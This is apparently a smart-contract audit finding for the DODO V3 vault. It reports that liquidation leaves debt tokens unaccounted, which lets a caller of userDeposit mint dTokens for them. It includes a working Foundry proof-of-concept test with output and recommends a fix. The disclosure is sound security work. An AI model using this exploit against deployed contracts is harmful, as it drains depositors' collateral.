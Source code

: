 0xkaden

high

# Attacker can steal debt repaid after liquidation

## Summary
During liquidation, debt tokens are sent to the vault. The state stored reserve balance is not updated afterwards, leaving a difference between the actual token balance of the vault and the accounted balance of the vault. These unaccounted tokens can be stolen by calling `D3VaultFunding.userDeposit` for the corresponding token, which then applies the difference between it's last accounted balance and actual balance as a deposit on the users behalf, granting them dTokens which they can later withdraw for the underlying tokens.

## Vulnerability Detail
`D3VaultFunding.userDeposit` checks the actual token balance of the contract and the last accounted balance of the contract, and assumes those tokens were sent by the user, granting the user corresponding dTokens.

Anytime the actual balance of the contract is greater than the last accounted balance, it's possible to call this function and receive dTokens corresponding to the underlying tokens.

Since `D3VaultLiquidation.liquidate` fails to call for an update to the reserves of the debt token, there is a surplus which can be taken.

We can add the following function to `D3VaultLiquidation.t.sol` to test an exploit:

```solidity
function testCanTakeUnaccountedLiquidationCollateral() public {
    contextCanBeLiquidated();

    token2.mint(user2, 10 ether);
    vm.prank(user2);
    token2.approve(address(d3Vault), 10 ether);

    vm.prank(address(d3MM));
    token3.approve(address(d3Vault), type(uint256).max);

    vm.prank(user2);
    d3Vault.liquidate(address(d3MM), address(token3), 25 ether, address(token2), 2 ether);

    uint256 actualBalance = MockERC20(token2).balanceOf(address(d3Vault));
    (, uint256 expectedBalance,,,,,,,,,,) = d3Vault.assetInfo(address(token2));
    console.log("expectedBalance: %s", expectedBalance);
    console.log("actualBalance: %s", actualBalance);

    (address dToken2,,,,,,,,,,) = d3Vault.getAssetInfo(address(token2));

    uint256 dTokenBalanceBefore = D3Token(dToken2).balanceOf(user1);

    mockUserQuota.setUserQuota(user1, address(token2), 1000 * 1e18);
    vm.prank(user1);
    d3Vault.userDeposit(user1, address(token2));

    uint256 dTokenBalanceAfter = D3Token(dToken2).balanceOf(user1);

    console.log("dToken balance increase: %s", dTokenBalanceAfter - dTokenBalanceBefore);
}
```

We can see from the output that the actual balance is higher than the accounted balance and that an attacker depositing credits them with the corresponding dTokens:

```solidity
expectedBalance: 490000000000000000000
actualBalance: 492000000000000000000
dToken balance increase: 2000000000000000000
```

## Impact
Anytime a liquidation occurs, an attacker can steal the tokens used to repay the debt, thereby preventing debt from actually being paid and leaving the system in a liquidate-able state. This allows for an attacker to liquidate => steal debt => liquidate => steal debt => ... until it is no longer profitable, draining the system of collateral.

## Code Snippet

[`D3VaultFunding.userDeposit`](https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol#L29)
```solidity
AssetInfo storage info = assetInfo[token];
uint256 realBalance = IERC20(token).balanceOf(address(this));
uint256 amount = realBalance  - info.balance;
require(ID3UserQuota(_USER_QUOTA_).checkQuota(user, token, amount), Errors.EXCEED_QUOTA);
uint256 exchangeRate = _getExchangeRate(token);
uint256 totalDToken = IDToken(info.dToken).totalSupply();
require(totalDToken.mul(exchangeRate) + amount <= info.maxDepositAmount, Errors.EXCEED_MAX_DEPOSIT_AMOUNT);
uint256 dTokenAmount = amount.div(exchangeRate);

IDToken(info.dToken).mint(user, dTokenAmount);
```

## Tool used

- Manual Review
- forge

## Recommendation
It's recommended that in `D3VaultLiquidation.liquidate`, the debt token reserves of the pool are updated. Additionally, it's recommended that either:
- The flow of applying the difference in actual and accounted balance is removed in favour of the use of a `safeTransferFrom` instead or
- `D3VaultFunding.userDeposit` is only allowed to be called by a validated proxy